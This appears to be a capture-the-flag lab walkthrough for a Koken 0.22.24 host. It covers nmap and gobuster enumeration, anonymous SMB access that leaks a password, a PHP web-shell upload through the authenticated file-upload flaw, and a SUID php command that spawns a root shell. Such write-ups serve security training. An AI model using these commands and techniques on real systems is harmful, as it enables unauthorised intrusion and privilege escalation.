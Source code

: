 ## Box : 192.168.193.76

## Nmap Scan
```text
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp   open  http    Apache httpd 2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.x–4.x  
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu
8000/tcp open  http    Apache httpd 2.4.18 (Koken 0.22.24)
```

## Web Enumeration (Port 8000)
- **Landing URL:** `http://192.168.193.76:8000/`  
- **CMS:** Koken 0.22.24 (from `<meta name="generator" content="Koken 0.22.24" />`)  
- **Vuln:** Arbitrary File Upload (Authenticated) [Exploit-DB 48706]

### Directory Fuzzing
```bash
gobuster dir -u http://192.168.193.76:8000 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
Found `/admin/`.

### SMB Share Enumeration
```bash
smbclient -L //192.168.193.76/ -N
```
Shares:
- `sambashare` → contains `mailsent.txt`, `wordpress.bkp.zip`

```bash
smbclient //192.168.193.76/sambashare -N
smb: \> get mailsent.txt
```

## Credentials Discovery
`mailsent.txt` reveals:
```text
To: Daisa Ahomi <daisa@photographer.com>
Don't forget your secret, my babygirl ;)
```
- **Creds:** `daisa@photographer.com:babygirl`

## Initial Foothold
1. **Login** to Koken admin at `/admin/` with above creds.  
2. **Upload** a PHP reverse shell renamed from `image.php.jpg` to `image.php` via Burp.  
3. **Trigger** shell:
   ```
   http://192.168.193.76:8000/storage/originals/.../image.php?cmd=id
   ```
4. **Shell** as `www-data`.

## Privilege Escalation

### SUID Binary Enumeration
```bash
find / -perm -u=s -type f 2>/dev/null
```
Notable: `/usr/bin/php7.2` (SUID root).

### GTFOBins Exploit for PHP
```bash
# Create SUID copy
cp /usr/bin/php7.2 /tmp/php
chmod +s /tmp/php

# Spawn shell with preserved privileges
/tmp/php -r "pcntl_exec('/bin/sh', ['-p']);"
```
- **Result:** Root shell

